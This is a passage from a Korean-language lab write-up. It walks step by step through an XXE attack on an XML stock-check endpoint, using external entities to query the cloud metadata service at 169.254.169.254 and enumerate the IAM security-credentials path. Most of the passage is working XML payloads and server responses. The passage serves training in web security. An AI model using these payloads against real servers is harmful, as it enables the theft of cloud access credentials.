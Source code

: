 ```xml
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "http://169.254.169.254/latest/meta-data/"> ]>
<stockCheck>
    <productId>&xxe;</productId>
    <storeId>1</storeId>
</stockCheck>
```

메세지가 바꼈다. `iam` 이라는 프로덕트 ID를 찾을 수 없다고 한다. 

```http
HTTP/1.1 400 Bad Request
Content-Type: application/json; charset=utf-8
Connection: close
Content-Length: 25

"Invalid product ID: iam"
```

## 4차시도 
이번에는 뒤에 추가로 iam 을 붙여봤다. 

```xml
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "http://169.254.169.254/latest/meta-data/iam"> ]>
<stockCheck>
    <productId>&xxe;</productId>
    <storeId>1</storeId>
</stockCheck>
```

그러자 또 응답이 바꼈다. `security-credentials` 라는 프로덕트 ID를 찾을 수 없다고 한다. 아하, 알겠다. 패스(경로)가 맞으면 그 다음패스를 알려주는 것 같다. (그래서 처음 시도에서 `lastest` 가 노출되었던 것 같다. )

```http
HTTP/1.1 400 Bad Request
Content-Type: application/json; charset=utf-8
Connection: close
Content-Length: 42

"Invalid product ID: security-credentials"
```

## 5차 시도 
그러면 `security-credentials` 까지 붙여서 시도해본다. 

```xml 
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "http://169.254.169.254/latest/meta-data/iam/security-credentials"> ]>
<stockCheck>
    <productId>&xxe;</productId>
    <storeId>1</storeId>
</stockCheck>
```

`admin` 이라는 프로젝트 ID가 없다고 한다. OK, 그러면 admin까지 붙여보자. 
